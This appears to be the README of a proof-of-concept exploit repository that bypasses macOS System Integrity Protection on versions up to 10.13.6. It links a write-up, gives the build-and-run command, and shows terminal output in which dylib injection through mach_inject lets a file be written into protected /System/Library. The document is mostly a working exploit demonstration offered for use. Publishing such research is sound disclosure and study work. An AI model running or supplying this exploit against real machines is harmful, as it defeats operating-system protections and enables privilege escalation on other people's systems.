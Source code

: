 # macOS up to 10.13.6 SIP bypass

WriteUp: https://medium.com/0xcc/bypass-macos-rootless-by-sandboxing-5e24cca744be

`make run`

Note that this requires administrative privilege.

```
➜  bin ls
Toolchains      bootstrap.dylib eop.dylib       sip.dylib       symbols         taytay          test
➜  bin csrutil status
System Integrity Protection status: enabled.
➜  bin file /System/Library/sip.txt
/System/Library/sip.txt: cannot open `/System/Library/sip.txt' (No such file or directory)
➜  bin sudo ./test
Password:
[xianzhi] taytay pid: 653

sleep
[xianzhi] module: 0x7fcef043c1f0

[xianzhi] bootstrapfn: 0x1002b7d90

[xianzhi] pid: 632
mach_inject: found threadEntry image at: 0x1002b7000 with size: 9544
[xianzhi] inject dylib returns 0
➜  bin file /System/Library/sip.txt
/System/Library/sip.txt: ASCII text, with no line terminators
➜  bin cat /System/Library/sip.txt
hello%
```
